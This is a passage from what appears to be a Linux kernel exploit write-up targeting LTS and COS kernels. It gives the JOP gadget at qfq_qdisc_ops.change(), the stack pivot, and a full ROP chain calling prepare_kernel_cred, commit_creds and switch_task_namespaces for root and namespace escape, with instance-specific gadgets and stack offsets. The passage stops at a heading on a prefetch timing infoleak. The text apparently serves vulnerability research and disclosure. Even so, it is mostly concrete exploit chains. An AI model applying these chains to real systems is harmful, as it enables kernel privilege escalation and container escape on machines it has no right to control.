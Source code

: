 The chain starts by calling the JOP gadget stored at `qfq_qdisc_ops.change()`:
```
push rsi ; jmp qword ptr [rsi - 0x70]
```
The gadget at `rsi - 0x70` then completes the stack pivot to the ROP chain at `rsi + 8` (the offset of `8` is needed to skip the `rtattr` header):
```
pop rsp ; pop rbx ; jmp __x86_return_thunk             // rsi - 0x70
```
The ROP chain starts by copying `rdi` into `rbx`, which restores `rbx`'s previous value:
```
push rdi ; pop rbx ; pop rbp ; jmp __x86_return_thunk  // rsi + 0x8
0
```
This is necessary becuase the chain will eventually return back to the kernel stack and `rbx` is callee saved. After this the usual privilege escalation and namespace escape is performed using `commit_creds()` and `switch_task_namespaces()`:
```
pop rdi ; jmp __x86_return_thunk
0
prepare_kernel_cred()
pop rcx ; jmp __x86_return_thunk
commit_creds()
mov rdi, rax ; jmp __x86_indirect_thunk_rcx
pop rdi ; jmp __x86_return_thunk
1
find_task_by_vpid()
pop rsi ; jmp __x86_return_thunk
init_ns_proxy
pop rcx ; jmp __x86_return_thunk
switch_task_namespaces()
mov rdi, rax ; jmp __x86_indirect_thunk_rcx
```

The ROP chain ends by pivoting back to the previous frame on the kernel stack. A kernel stack pointer can be read from `r14` on the LTS instance and `r13` on the COS instance. An offset of `-384` or `-368` is added to this pointer to get the location of the target frame on LTS and COS, respectively. Here are the the gadgets for LTS:

```
mov rax, r14 ; pop r14 ; jmp __x86_return_thunk
0
pop rdx ; jmp __x86_return_thunk
pop r14 ; jmp __x86_return_thunk
push rax ; jmp __x86_indirect_thunk_rdx
pop rcx ; jmp __x86_return_thunk
-384
add rax, rcx ; jmp __x86_return_thunk
pop rdx ; jmp __x86_return_thunk
pop rsp ; jmp __x86_return_thunk
push rax ; jmp __x86_indirect_thunk_rdx
```
and COS:
```
mov rax, r13 ; pop r13 ; pop rbp ; jmp __x86_return_thunk
0
0
pop rsi ; jmp __x86_return_thunk
-368
add rax, rsi ; jmp __x86_return_thunk
pop rdx ; jmp __x86_return_thunk
pop rsp ; jmp __x86_return_thunk
push rax ; jmp __x86_indirect_thunk_rdx
```
## Infoleak with Prefetch Timing Side-channel
